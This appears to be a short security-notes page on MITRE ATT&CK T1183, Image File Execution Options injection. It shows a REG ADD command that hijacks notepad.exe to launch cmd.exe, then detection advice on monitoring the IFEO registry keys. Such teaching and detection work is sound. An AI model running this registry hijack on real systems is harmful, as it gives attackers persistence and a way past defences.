 ```yaml
---
description: 'Defense Evasion, Persistence, Privilege Escalation'
---
```


# T1183: Image File Execution Options Injection

## Execution

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "cmd.exe"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching a notepad on the victim system:

![](../.gitbook/assets/ifeo-notepad.png)

![](../.gitbook/assets/ifeo-notepad2.png)

## Observations

Monitoring commandline arguments and events mofidying the `HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options/<executable>` and `HKLM\SOFTWARE\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\<executable>` should be helpful in detecting these manipulations:

![](../.gitbook/assets/ifeo-cmdline.png)

![](../.gitbook/assets/ifeo-cmdline2.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1183\",\"type\":\"link\",\"title\":\"Image File Execution Options Injection - ATT&CK for Enterprise\"}" %}

  




  


